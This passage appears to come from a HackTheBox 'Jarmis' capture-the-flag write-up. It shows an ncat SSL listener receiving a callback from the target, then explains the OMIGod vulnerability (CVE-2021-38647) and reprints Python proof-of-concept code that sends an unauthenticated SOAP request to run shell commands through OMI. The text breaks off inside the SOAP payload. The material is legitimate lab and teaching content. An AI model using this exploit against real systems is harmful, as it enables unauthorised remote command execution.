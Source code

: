 Then a second or two later on 8443:

    
    
    root@parrot[/media/sf_CTFs/hackthebox/jarmis-10.10.11.117]# nc --ssl -lnvp 8443
    Ncat: Version 7.92 ( https://nmap.org/ncat )
    Ncat: Generating a temporary 2048-bit RSA key. Use --ssl-key and --ssl-cert to use a permanent one.
    Ncat: SHA-1 fingerprint: A61B 19A8 8652 BA80 3C3E F71E EE41 7909 99B3 B456
    Ncat: Listening on :::8443
    Ncat: Listening on 0.0.0.0:8443
    Ncat: Connection from 10.10.11.117.
    Ncat: Connection from 10.10.11.117:47768.
    GET / HTTP/1.1
    Host: 10.10.14.6
    User-Agent: curl/7.74.0
    Accept-Encoding: gzip, deflate
    Accept: */*
    Connection: keep-alive
    

## OMIGod

### Python POC

[This GitHub](https://github.com/horizon3ai/CVE-2021-38647) has a POC for
CVE-2021-38647. The background about the CVE is that the Microsoft
implementation of [Open Management
Infrastructure](https://github.com/microsoft/omi) didn’t handle missing auth
headers well, and just let it work.

The POC just involves sending a POST request to 5986 (with TLS) or 5985
(without) with a SOAP XML request in the body:

    
    
    def exploit(target, command):
        headers = {'Content-Type': 'application/soap+xml;charset=UTF-8'}
        r = requests.post(f'https://{target}:5986/wsman', headers=headers, data=DATA.format(command), verify=False)
        output = re.search('<p:StdOut>(.*)</p:StdOut>', r.text)
        error = re.search('<p:StdErr>(.*)</p:StdErr>', r.text)
        if output:
            if output.group(1):
                print(output.group(1).rstrip('&#10;'))
        if error:
            if error.group(1):
                print(error.group(1).rstrip('&#10;'))
    

The body will have:

    
    
    DATA = """<s:Envelope xmlns:s="http://www.w3.org/2003/05/soap-envelope" xmlns:a="http://schemas.xmlsoap.org/ws/2004/08/addressing" xmlns:h="http://schemas.microsoft.com/wbem/wsman/1/windows/shell" xmlns:n="http://schemas.xmlsoap.org/ws/2004/09/enumeration" xmlns:p="http://schemas.microsoft.com/wbem/wsman/1/wsman.xsd" xmlns:w="http://schemas.dmtf.org/wbem/wsman/1/wsman.xsd" xmlns:xsi="http://www.w3.org/2001/XMLSchema">
       <s:Header>
          <a:To>HTTP://192.168.1.1:5986/wsman/</a:To>
          <w:ResourceURI s:mustUnderstand="true">http://schemas.dmtf.org/wbem/wscim/1/cim-schema/2/SCX_OperatingSystem</w:ResourceURI>
          <a:ReplyTo>
             <a:Address s:mustUnderstand="true">http://schemas.xmlsoap.org/ws/2004/08/addressing/role/anonymous</a:Address>
          </a:ReplyTo>
          <a:Action>http://schemas.dmtf.org/wbem/wscim/1/cim-schema/2/SCX_OperatingSystem/ExecuteShellCommand</a:Action>
          <w:MaxEnvelopeSize s:mustUnderstand="true">102400</w:MaxEnvelopeSize>